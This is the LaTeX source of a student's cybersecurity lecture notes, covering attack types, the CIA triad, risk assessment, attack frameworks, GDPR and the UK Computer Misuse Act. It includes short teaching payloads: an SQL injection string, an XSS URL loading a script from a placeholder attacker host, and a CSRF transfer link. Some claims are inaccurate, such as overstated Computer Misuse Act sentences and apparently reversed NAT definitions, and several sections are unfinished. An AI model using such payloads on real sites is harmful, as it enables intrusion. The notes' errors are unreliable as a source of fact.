\documentclass[12pt]{report}
\usepackage{graphicx} % Required for inserting images
\usepackage[a4paper, margin=2.5cm]{geometry}
\graphicspath{{images/}}
\usepackage{tcolorbox}
% To prevent "Chapter N" display for each chapter
\usepackage[compact]{titlesec}
\usepackage{wasysym}
\usepackage{import}

\titlespacing*{\chapter}{0pt}{-2cm}{0.5cm}
\titleformat{\chapter}[display]
{\normalfont\bfseries}{}{0pt}{\Huge}

% Use single quotes around titles:
\usepackage[british]{babel}
\usepackage{csquotes}

\usepackage{hyperref}
\hypersetup{
    colorlinks=true,
    linkcolor=black,
    filecolor=magenta,
    urlcolor=blue,
    citecolor=black,
}

\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{float} % here for H placement parameter
\usepackage{subcaption}

\usepackage{multicol}


\begin{document}

\tableofcontents

\addtocounter{chapter}{6}

\chapter{Lecture 7}
\section{Cyberattacks}
A cyber attack is an attempt to exploit a vulnerability in a system, device or network with the intent to steal information or gain unauthorised access.
Nobody is necessarily safe from a cyber attack, though certain things like military bases are at much higher risk of them.
The severity of an attack will likely vary based on the attacker's motivations, whether they're financial, political, government-related, gang-related or
for espionage.

\subsection{Attack classifications}
\begin{multicols}{1}
\begin{itemize}
	\item \textbf{Social engineering} (has dedicated section) 
		\begin{itemize}
			\item Psychological exploitation of a person to make them do something to breach confidentiality.
		\end{itemize}
	\item \textbf{Web application attacks} (has dedicated section)
		\begin{itemize}
			\item SQL injections, XSS, CSRF, eavesdropping.
		\end{itemize}
	\item System intrusion
		\begin{itemize}
			\item Attacks using malware and/or hacking.
		\end{itemize}
	\item Misc. errors
		\begin{itemize}
			\item Unintentional actions compromising security. (e.g. PC left unattended)
		\end{itemize}
	\item Privilege misuse 
		\begin{itemize}
			\item Issues caused by unapproved or malicious usage of elevated privileges given legitimately.
		\end{itemize}
	\item Lost \& stolen assets
		\begin{itemize}
			\item Attacks where information went missing, unintentionally or maliciously.
		\end{itemize}
	\item Denial of service 
		\begin{itemize}
			\item Attacks where the availability of a network/system is compromised. Includes both network \& application layer attacks.
		\end{itemize}
\end{itemize}
\end{multicols}

\pagebreak

\subsection{Social engineering}
\begin{itemize}
	\item Phishing
		\begin{itemize}
			\item
		\end{itemize}
	\item Spear-phishing
		\begin{itemize}
			\item A phshing variant that's highly targeted at a specific individual using information learned about them from other sources such as social media pages.
			Multi-stage (studying the victim, studying habits, friends, etc)
		\end{itemize}
	\item Vishing (``Voice-phishing'')
		\begin{itemize}
			\item Over-the-phone scams
		\end{itemize}
	\item Online phishing
		\begin{itemize}
			\item Fake websites designed to look identical to the real one. Attempts to get users to input sensitive details as a result of them not paying close enough attention.
		\end{itemize}
\end{itemize}

\subsection{Prevention}
Phishing is so popular because people are the weakest link in any system. It doesn't matter what crazy security you have if an idiot is in charge of it
and someone can exploit them. It's very easy and very cheap to phish. Mitigating phishing can be attempted via:
\begin{multicols}{2}
\begin{itemize}
	\item User security awareness training
	\item Multi-factor authentication (MFA)
	\item Not oversharing on social media
	\item Updated systems
	\item Spam filters
\end{itemize}
\end{multicols}
\pagebreak

\section{Web application attacks}
\subsection{SQL injections}
SQL injections are a method of attack where SQL code is entered into an input field. 
If the site is poorly made, this code actually will be executed. For example:
\begin{verbatim}
	Username: Lewis OR 1=1;
\end{verbatim}
This would return all users, as 1 = 1 is a true statement, so \newline SELECT * FROM USERS WHERE 1 = 1 will select all.

\subsubsection{Prevention}
To prevent SQL injection attacks, statements must be \textbf{prepared} (or otherwise sanitised) to remove escape characters and ensure that the user's input cannot
possibly be processed by the database as anything other than what it should be.

\subsection{Cross-site scripting (XSS)}
XSS is an attack vector where a threat agent manipulates a URL to perform unintended actions. For example,
\begin{verbatim}
https://my-site.com/messages?msg="Hello!"
\end{verbatim}
could be manipulated into 
\footnotesize\begin{verbatim}
https://my-site.com/messages?msg=<script src=https://evil-user.com/virus.js></script>
\end{verbatim}
\normalsize

\subsection{Cross-site request forging/forgery (CSRF)}
CSRF is an attack vector where a threat agent uses a legitimate link to bypass the need for the attacker to gain the user's credentials. Because sites store the current login, a link can be sent to perform an action and if a user clicks it, they will have done the threat agent's will without the need for their credentials to be stolen. For example,
\begin{verbatim}
http://bank.com/transfer?account=Hacker&amount=1000
\end{verbatim}
Because the user is logged in, this is a completely legitimate link. CSRF can also be used in alternative ways such as loading the link into a clickable image.


\pagebreak

\section{DoS and DDoS}
\subsection{Types}
\begin{multicols}{2}
\begin{itemize}
	\item SYN flood attack
		\begin{itemize}
			\item Repeated SYN (hello) packets, overloading the server. Server expects more data than just the request so it keeps waiting until there are too many sessions.
		\end{itemize}
	\item Smurf attack 
		\begin{itemize}
			\item Repeated ICMP packets using a victim's spoofed IP.
		\end{itemize}
	\item Botnet attack
		\begin{itemize}
			\item ``Zombie'' devices that have been hacked and puppeteered into DDoSing something.
		\end{itemize}
	\item Ping of Death attack
		\begin{itemize}
			\item Malicious data repeatedly sent until system crash.
		\end{itemize}

\end{itemize}
\end{multicols}

\section{Viruses}
A virus is a program that affects or infects a computer negatively, changing the way it works without the user's knowledge or permission. They may then spread.
\subsection{Types}
\begin{itemize}
	\item Worm
	\begin{itemize}
		\item Spreads repeatedly across memory and/or a network, using many of its resources.
	\end{itemize}
	\item Trojan horse
	\begin{itemize}
		\item Impersonates legitimate software but hides a malicious payload. Doesn't spread to other computers. 
	\end{itemize}
	\item Spyware
	\begin{itemize}
		\item Secretly gathers information and remains hidden. 
	\end{itemize}
	\item Ransomware
	\begin{itemize}
		\item Encrypts data until a fee has been paid, but even then you still have to trust they'll actually send you a decryptor. They may threaten to delete or release the data; whichever they think would harm you/the company more. 
	\end{itemize}
\end{itemize}

\chapter{Lecture 8}
\section{Principles of cybersecurity - \textbf{CIA Triad}}
\subsection{Confidentiality}
Preventing unauthorised access to, or diclosure of, information either in transit or on a device (`at rest') 
\begin{multicols}{2}
\subsubsection{Breaching}
\begin{itemize}
	\item Social engineering
	\item Eavesdropping
	\item Captured network traffic 
	\item Password theft
	\item Data theft due to lack of encryption
\end{itemize}
\subsubsection{Upholding}
\begin{itemize}
	\item Encryption
	\item Data classification \& labelling
	\item Access Control
	\item User security awareness training
\end{itemize}
\end{multicols}

\subsection{Integrity}
Preventing unauthorised or unintentional modification of data.
\begin{multicols}{2}
\subsubsection{Breaching}
\begin{itemize}
	\item Viruses
	\item Unauthorised acces
	\item Malicious modifications
	\item Hackers (?)
	\item Backdoors
\end{itemize}
\subsubsection{Upholding}
\begin{itemize}
	\item Encryption
	\item Access control
	\item \textbf{File hash verification}
	\item Intrusion detection systems
	\item User awareness training
\end{itemize}
\end{multicols}
\subsection{Availability}
Ensuring that data is available to authorised users as and when needed without interruption.
\begin{multicols}{2}
\subsubsection{Breaching}
\begin{itemize}
	\item Device failures
	\item Environmental threats (earthquake, internet outage from storm etc)
\end{itemize}
\subsubsection{Upholding}
\begin{itemize}
	\item Traffic monitoring
	\item Firewalls (mitigating DoS/DDoS)
	\item Regularly maintained backups
	\item Business continuity plans
\end{itemize}
\end{multicols}
\pagebreak

\section{Security policies}
Documents produced by senior management dictating specific strategic requirements across the business. They dictate the overall direction and management intent. 
Not complying with security policies is often grounds for disciplinary action up to and including termination. Intensely important to the continued operation of a business.
There are often many security policies. They allow companies to \textbf{protect assets, reduce risk, safeguard intellectual property and comply with regulations.}

\section{Standards}
Mandatory controls to help enforce the security policy and consistency across the business. Passworth length \& complexity mandates are standards.
Standards directly concern technology and products.

\section{Procedures}
Step-by-step instructions on how to implement standards and policies.  For example, standard operating procedures (SOP) would assign work roles where certain roles are directly responsible for given cybersecurity and privacy tasks. For example, the CEO is likely to oversee and govern, the CTO to operate \& maintain, etc.

\section{Common policies}
\begin{multicols}{3}
\begin{itemize}
	\item Data breach response
	\item Email
	\item Data retention
	\item Internet usage
	\item Password
	\item Access control
\end{itemize}
\end{multicols}

\section{LANs and WANs}
\subsection{Local Area Networks}
A network in a \textbf{single} geographically contiguous site. Often has one owner. An organisation with multiple premises would have a LAN for each one, with private connections to form a single logical LAN. Often have routers with firewalls controlling internet access.

\subsection{Wide Area Networks}
A network spanning a larger geographical area, up to and including the entire world, like the Internet itself.

\section{Virtual Private Networks}
VPNs were \textbf{originally created for users outside of a LAN to connect to it}, and still are to this day, though they are additionally used for country spoofing nowadays.
\subsection{Encapsulation}
VPNs encrypt data before encapsulating it in an outer layer and then sending it to the VPN server. The server then decrypts the outer packet and then sends the packet to its intended destination. A third party in this scenario can only see the encrypted outer packet and does not have the means to remove the encapsulation.

\large\textbf{Expand on VPNs, they're likely important to the exam.}\normalsize

\section{NATs}
Network Address Translations allow for communications across networks by translating network addresses to specific devices,
because a router only has one public IP which represents the whole network and all of its devices.

\begin{multicols}{2}
	\begin{itemize}
		\item Source NATs allow servers \textbf{outside} of a firewall/router to communicate with clients \textbf{inside} it.
		\item Destination NATs allow servers \textbf{inside} of a firewall/router to communicate with clients \textbf{outside} it.
	\end{itemize}
\end{multicols}

\chapter{Lecture 9}
\section{Risk assessments}
A risk assessment is the process of identifying, estimating and prioritising risks that affect a business and its assets/processes.

\subsection{Terminologies}
	\begin{itemize}
		\item Asset
		\begin{itemize}
			\item Something of value belonging to the company, be it their software, hardware, employees, company building, etc
		\end{itemize}
		\item Threat
		\begin{itemize}
			\item Something that could exploit a vulnerability, intentionally or not.
		\end{itemize}
		\item Vulnerability
		\begin{itemize}
			\item A weakness in the system that a threat agent could exploit.
		\end{itemize}
	\end{itemize}

\noindent A risk itself can be seen as the combination of these terms. A risk score is calculated by the probability multiplied by the impact,
on a scale of 1 - 5, multiplied up to 25.

\subsection{Process}
\begin{itemize}
	\item Identification and control of information asset risks
	\item Contingency planning
	\item "Know yourself and know your enemy"
	\begin{itemize}
		\item Knowing your own systems and assets, and periodically reviewing them.
		\item Identifying, examining and understanding possible threats, prioritising them based on their importance.
		\item Reviewing active control methods to see if they are currently working.
	\end{itemize}
\end{itemize}
\subsection{Risk identification}

Risk identification is the process of examining, documenting and assessing the \textit{security posture} of a system and the risks that it and
its assets face. Assets are prioritised dependent on their value to the company - for example, the CEO's information is more valuable than the unpaid intern's.

\subsection{Asset idenitifcation \& valuation \textbf{(Weighted factor analysis)}}
Assets are \textbf{weighted} dependent on the answers to the following questions in a process called \textbf{weighted factor analysis}:
\begin{itemize}
	\item Is it critical to continued operation and success?
	\item How much revenue and profit does it generate?
	\item Would it be expensive to replace?
	\item Would it be expensive to protect?
	\item Would it damage the company's operations or reputation if revealed?
	\item Is it legally mandatory to protect it?
\end{itemize}

\noindent Weights between 1 and 100 are assigned to these criteria, and scores between 0.1 and 1 are assigned to each asset for each weight.

\vspace{10pt}

\includegraphics[width=0.95\linewidth]{WeightedFactorAnalysis.png}

\pagebreak

\section{Risk control}
Risk control is the process of taking measures to mitigate a risk. For example, password length enforcement is risk control.

\subsection{Strategies}
\begin{itemize}
	\item Defense approach
	\begin{itemize}
		\item Prevents the exploitation of vulnerabilities by defending them via:
		\begin{itemize}
			\item Application of policy
			\item Training and education
			\item Technology application
		\end{itemize}
		\item Often requires technical solutions
		\item Eliminates asset exposure (or attempts to)
		\item Implements security controls and safeguards to block attacks
	\end{itemize}
	\item Transference
	\begin{itemize}
		\item The shifting of risk to something or someone else, through means such as:
		\begin{itemize}
			\item Outsourcing
			\item Insurance
			\item Contracts with other providers (is this not outsourcing)
		\end{itemize}
	\end{itemize}
	\item Mitigation
	\begin{itemize}
		\item Occurs after a vulnerability has been exploited.
		\item Follows a contingency plan, therefore requiring quick detection and response of the attack.
		\item Reliant on the quality of other plans made for scenarios like this to work.
	\end{itemize}
	\item Acceptance
	\begin{itemize}
		\item Doing nothing, accepting that it'll happen.
		\item Done when an asset doesn't justify the cost to protect it.
		\item A conscious business decision not to be taken lightly.
	\end{itemize}
	\item Termination
	\begin{itemize}
		\item The total removal of an asset to stop its exploitation.
		\item Done when an asset doesn't justify the cost to protect it.
		\item A conscious business decision not to be taken lightly.
	\end{itemize}
\end{itemize}

\pagebreak

\section{Cyber Kill Chain}
The Lockheed Martin Cyber Kill Chain is a framework for understanding adversary behaviour in a cyber-attack. It categorises 
the common behaviours exhibited by attackers.

\begin{itemize}
	\item Reconaissance
	\begin{itemize}
		\item Gathering information on the system (NMAP, whois, social engineering)
		\item Can be detected via firewalls, network intrusion detection systems (NIDs) and logging.
	\end{itemize}
	\item Weaponisation
	\begin{itemize}
		\item The creation of exploits based on any backdoors found in recon, such as zero-days or privilege escalations.
		\item These are converted into payloads.
		\item Can be detected via antivirus and NIDs.
	\end{itemize}
	\item Delivery
	\begin{itemize}
		\item The delivery of the malicious payload.
		\item Can occur via USB, phishing, etc.
	\end{itemize}
	\item Installation
	\begin{itemize}
		\item The payload takes root on the system, likely gaining privileges.
	\end{itemize}
	\item Command \& Control (C2)
	\begin{itemize}
		\item A channel is established for the attacker to manipulate the victim device.
	\end{itemize}
	\item Actions on objectives
	\begin{itemize}
		\item The completion of the attacker's goals using their "hands on keyboard" access.
		\item Could be exfiltrating with stolen data, etc.
		\item Could leave a backdoor on the device.
	\end{itemize}
\end{itemize}

\pagebreak

\section{MITRE ATT\&CK}
Another massive framework for identifying attacker behaviours. Categories are:
\begin{multicols}{3}
\begin{itemize}
	\item Reconaissance
	\item Resource Development
	\item Initial Access
	\item Execution
	\item Persistence
	\item Privilege Escalation
	\item Defense Evasion
	\item Credential Access
	\item Discovery
	\item Lateral Movement
	\item Collection
	\item Command \& Control
	\item Exfiltration
	\item Impact
\end{itemize}
\end{multicols}
\vspace{5pt}
\footnotesize\begin{center}
	Read downwards, left -> right.
\end{center}\normalsize

\vspace{10pt}

\includegraphics[width=.95\linewidth]{MITRE.png}

\chapter{Lecture 10}
\begin{center}\large\textbf{Entirely missing because you didn't write any notes here.}\normalsize\end{center}


\includegraphics[width=.95\linewidth]{CIS18.png}

\chapter{Lecture 11}
\subsection{Data terms}
\begin{itemize}
	\item Personal data
	\begin{itemize}
		\item Data that can be used to identify a person.
	\end{itemize}
	\item Data controller
	\begin{itemize}
		\item A person or public body who determines the purpose and method of data processing.
	\end{itemize}
	\item Data processor
	\begin{itemize}
		\item A person or public body who processes data on the controller's behalf.
	\end{itemize}
	\item Data subject
	\begin{itemize}
		\item The person whose data is processed by the controller or processor.
	\end{itemize}
	\item Data Protection Officer (DPO)
	\begin{itemize}
		\item A mandatory company position. This person is in charge of how the company is processing data in line with relevant legislation, be it GDPR or UK DPA.
	\end{itemize}
\end{itemize}

\pagebreak

\section{General Data Protection Regulation}
People from EU member states are protected by this legislation that empowers them to have certain rights over the processing and storage of their personal data.
This applies to all companies operating within the EU and/or processing data from EU subjects even if it is not explicitly based there.
\subsection{Penalty for non-compliance}
If a company violates GDPR, they are liable to a \euro20,000,000 fine or 4\% of their annual turnover, \textbf{whichever of these is greater.}

\subsection{Principles}
\begin{itemize}
	\item Lawfulness, fairness and transparency.
	\item Purpose limitation.
	\item Data minimisation.
	\item Data accuracy.
	\item Storage limitation.
	\item Integrity and confidentiality. (Security)
	\item Accountability.
\end{itemize}

\subsection{Rights}
\begin{itemize}
	\item To be forgotten \footnotesize (Article 17)\normalsize:
	\begin{itemize}
		\item EU users must have the option to request the removal of their personal data without undue delay.
		\begin{itemize}
			\item Only applies to currently held data at the time of the request, not to any future data.
			\item Doesn't apply if the data is needed for legal reasons.
		\end{itemize}
	\end{itemize}
	\item To object \footnotesize (Article 21)\normalsize:
	\begin{itemize}
		\item EU users must have the option to object to the processing of their data \textbf{especially if it is being used for direct marketing purposes.}
		\begin{itemize}
			\item In this scenario, the company must stop it immediately without challenge.
			\item This doesn't mean the processing of all of your data in this scenario, just that which is done for marketing.
		\end{itemize}
	\end{itemize}
\end{itemize}

\subsection{Requirements under Article 32}
\begin{itemize}
	\item Frequent security and risk assessments.
	\item Monitoring security programs.
	\item Pseudonymization and encryption of personal data.
	\item Confidentiality, integrity, availability and resilience of data.
\end{itemize}

\section{UK Data Protection Act 2018}
After Brexit, GDPR no longer applies to the UK because it isn't an EU member state. Therefore, the UK adopted its own version of it. 
It is enforced by the \textbf{Information Commissioner's Office (ICO)}, who have a register of all data controllers, and mandate that any
organisation processing personal data registers with them. They carry out investigations in the event of complaints.

\section{Rights}
\begin{itemize}
	\item GDPR rights.
	\item To have incorrect data corrected.
	\item To be removed from direct mailing lists.
	\item To prevent the processing of their data if it would cause damage or distress.
\end{itemize}

\section{Requirements}
\begin{itemize}
	\item The data controller must notify the Data Commisioner and the individual(s) concerned in a breach about it.
	\item Data controllers and processors exclusively based in the UK may be required to appoint an EU representative.
\end{itemize}

\section{Legislation overlap}
Both laws require the following:
\begin{itemize}
	\item Data breach notifications within 72 hours.
	\item 
\end{itemize}

\pagebreak

\section{Computer Misuse Act}
\subsection{Offences}
\begin{itemize}
	\item 1 Unauthorised access to computer material.
	\begin{itemize}
		\item Up to 6 months
	\end{itemize}
	\item 2 UATCM with intent to commit further offences.
	\begin{itemize}
		\item Up to 5 years
	\end{itemize}
	\item 3 UATCM with intent to impair.
	\begin{itemize}
		\item Such as unleashing malware on a system to destroy it.
		\item 14 years to life. 
	\end{itemize}
	\item 3A Making, supplying or obtaining articles for use in these offences.
	\begin{itemize}
		\item 14 years to life.
	\end{itemize}
	\item 3ZA UATCM that causes or creates risk of serious damage.
	\begin{itemize}
		\item Such as hacking into air traffic control.
		\item 14 years to life.
	\end{itemize}
\end{itemize}

\section{Threats to the financial industry}
\begin{multicols}{2}
	\begin{itemize}
		\item Advanced Persistent Threats (APTs)
		\item DoS attacks
		\item Mobile banking breaches
		\item Insider \& internal threats
		\item SWIFT system attacks
		\item Supply chain infiltration.
	\end{itemize}
\end{multicols}
\footnotesize\begin{center}
	SWIFT systems facilitate international banking and/or banking between different banks.
\end{center}\normalsize

\noindent Risk assessments and asset identification/valuation are all the more imperative to the financial industry given what it is they do. 
Using frameworks like CIS-18, plans should be made for all possible scenarios, and existing measures must undergo constant testing.
Malware protection and up-to-date systems are especially important.

\pagebreak 

\section{Clark-Wilson Integrity Model}
\subsection{Components}
\begin{itemize}
	\item Accounting master file
	\begin{itemize}
		\item Tracks each customer's current balance, previous transactions within a certain period and carry forward amount for the start of this period.
	\end{itemize}
	\item Ledgers
	\begin{itemize}
		\item Track assets (such as cash) on their way through the system. Updated at the end of the day (?)
	\end{itemize}
	\item Journals
	\begin{itemize}
		\item Track transaction inputs from check sorters, cash machines etc. that haven't been put into ledgers yet.
	\end{itemize}
	\item Audit trail
	\begin{itemize}
		\item Tracking which staff member did what and when.
	\end{itemize}
	\item Batch processing
	\begin{itemize}
		\item A predetermined sequence of programs run at the end of each data, transferring data from journals to ledgers.
		\item The order of the programs can influence the outcome, with an example being that there would be less overdrafts if money IN is processed before money OUT.
	\end{itemize}
	\item Transaction processing \footnotesize{(Not actual money transactions)}\normalsize
	\begin{itemize}
		\item Tracking the batch processing and keeping backups of all files including the journals and ledgers so that the batch can be rerun if it fails.
	\end{itemize}
	\item Double-entry bookkeeping
	\begin{itemize}
		\item The use of two ledgers: an assets ledger and liability ledger.
		\item Assets are money that the bank has, liabilities are what it owes. (?)
		\item \footnotesize When you deposit £100 to an ATM, the £100 cash in that ATM is an asset. The £100 credited to your account is a liability.
	\end{itemize}
	\item Seperation of duties
	\begin{itemize}
		\item A key security measure that ensures that one person alone cannot single-handedly perform malicious actions.
		\item Two or more people are needed to perform certain actions, such as printing a credit card. One prints it while another sends the PIN in the post. Person 1 doesn't know the PIN.
	\end{itemize}
\end{itemize}

\subsection{Key terms}
\begin{itemize}
	\item Unconstrained Data Item (UDI)
	\begin{itemize}
		\item An input prior to validation and authentication.
	\end{itemize}
	\item Constrained Data Item (CDI)
	\begin{itemize}
		\item A UDI after validation and authentication.
	\end{itemize}
	\item Transformation Procedure (TP)
	\begin{itemize}
		\item The process of constraining UDI to CDI, creating enough information to recreate the transaction.
		\item \footnotesize Can be the act of signing a cheque, creating the info that the signer authorised it.
	\end{itemize}
	\item User
	\begin{itemize}
		\item An entity that allows a transaction to be made or is part of the system itself with insider access.
		\item Examples include bank staff and also ATMs and tills.
	\end{itemize}
	\item \textbf{Triple}
	\begin{itemize}
		\item \textbf{Ensures the seperation of duties / shared control.}
		\item \textbf{The combination of a User, Transformation Procedure, and Constrained Data Item.}
	\end{itemize}
\end{itemize}

\subsection{Limitations}
This is a \textbf{descriptive} model, not \textbf{prescriptive}, meaning it can be interpreted in more than one way, such as the seperation of duties 
where the method of doing so is unspecified. Additionally, some transactions may need multiple Transformation Procedures (i.e. signatures), which would result in a
\textbf{Suspense Account}. An employee could possibly manipulate a suspense account by siphoning money to and from it, "juggling" it. 
To prevent this, employees must have mandated holidays (1 week per 6 months) to prevent this.

\section{Auditing}
Organisations are audited frequently. These are unannounced, and an auditor will arrive to check company records to ensure they're in order and
are not inconsistent. There are internal and external auditors. Internal auditors frequently check the company's records, though external auditors still
arrive yearly, and are independent entities. This is done so that records are extremely hard to modify in a way that avoids detection.

\chapter*{Misc.}
\addtocounter{chapter}{-11}
\addcontentsline{toc}{chapter}{Misc.}
\section{Eavesdropping}
Passive eavesdropping is where the attacker is listening to comms and not modifying them. Active is where they are modifying them (deleting, sending their own, etc)

\end{document}